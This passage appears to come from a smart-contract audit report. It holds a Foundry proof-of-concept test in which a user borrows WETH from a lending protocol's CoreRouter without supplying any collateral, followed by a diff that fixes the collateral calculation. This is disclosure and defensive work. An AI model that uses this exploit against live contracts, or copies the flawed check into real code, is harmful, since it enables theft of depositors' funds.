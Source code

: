 ```solidity
        {
            vm.label(address(btc), "BTC");
            vm.label(address(dai), "DAI");
            vm.label(address(weth), "WETH");
            vm.label(address(lTokenBTC), "lToken BTC");
            vm.label(address(lTokenDAI), "lToken DAI");
            vm.label(address(lTokenWETH), "lToken WETH");
            vm.label(address(endpoint), "Endpoint");
            vm.label(address(lendtroller), "Lendtroller");
            vm.label(address(lend), "Lend");
            vm.label(address(priceOracle), "PriceOracle");
            vm.label(address(lendStorage), "LendStorage");
            vm.label(address(coreRouter), "CoreRouter");
            vm.label(address(crossChainRouter), "CrossChainRouter");
        }
    }

    function testPOC_BorrowWithoutProvidingCollaterals() public {
        address alice = makeAddr("Alice");
        deal(address(weth), alice, 2e18);
        
        // Alice supplies 2 WETH
        {
            vm.startPrank(alice);
            weth.safeApprove(address(coreRouter), 2e18);
            coreRouter.supply(2e18, address(weth));
            vm.stopPrank();
        }

        address bob = makeAddr("Bob");

        // Bob borrows 1 WETH without providing any collaterals
        vm.prank(bob);
        coreRouter.borrow(1e18, address(weth));

        assertEq(weth.balanceOf(bob), 1e18);
    }
}

```

### Mitigation

```diff
        LendStorage.BorrowMarketState memory currentBorrow = lendStorage.getBorrowBalance(msg.sender, _lToken);

        uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
-           : 0;
+           : borrowed;

        require(collateral >= borrowAmount, "Insufficient collateral");
```